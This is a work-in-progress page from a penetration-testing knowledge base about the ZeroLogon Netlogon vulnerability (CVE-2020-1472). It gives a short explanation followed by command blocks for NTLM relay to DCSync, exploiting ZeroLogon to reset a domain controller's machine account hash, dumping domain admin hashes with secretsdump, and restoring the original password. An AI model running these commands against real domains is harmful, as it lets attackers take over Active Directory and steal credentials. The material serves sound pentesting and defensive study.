 # 🛠️ ZeroLogon \(CVE-2020-1472\)

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

This attack exploits an insecure customized cryptographic protocol used in the NetLogon Remote Protocol. It allows attackers to change the password of the domain controller computer account, hence giving those attackers domain admin privileges.

## Practice

This exploit changes the NT hash of the domain controller computer account in the Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent denial of service, attackers can exploit the CVE, find the NT hash of the domain controller machine account before it was changed, and set it back in the AD.

{% tabs %}
{% tab title="NTLM relay" %}
//todo

```bash
ntlmrelayx -t dcsync://$domain_controller_2 -smb2support
dementor.py -d $domain -u $user -p $password $attacker_ip $domain_controller_1
```
{% endtab %}

{% tab title="Password change \(disruptive\)" %}
//todo

```bash
# Scan for the vulnerability (https://github.com/SecuraBV/CVE-2020-1472)
zerologon-scan 'DC_name' 'DC_IP_address'

# Exploit the vulnerability: set the NT hash to \x00*8 (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
zerologon-exploit 'DC_name' 'DC_IP_address'

# Obtain the Domain Admin's NT hash
secretsdump -no-pass 'Domain'/'DC_computer_account$'@'Domain_controller'

# Obtain the machine account hex encoded password with the domain admin credentials
secretsdump -hashes :'NThash' 'Domain'/'Domain_admin'@'Domain_controller'

# Restore the machine account password (https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)
# Exemple zerologon-restore breaking/dc01@dc01 -target-ip 192.168.56.101 hexpass
zerologon-restore 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'

# (alternate option mimikatz) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'DC.DOMAIN.LOCAL'  /user:'DC_name$' /oldntlm:31d6cfe0d16ae931b73c59d7e0c089c0 /newntlm:'old_NThash'
```
{% endtab %}
{% endtabs %}





## References

{% embed url="https://www.secura.com/blog/zero-logon" caption="" %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}



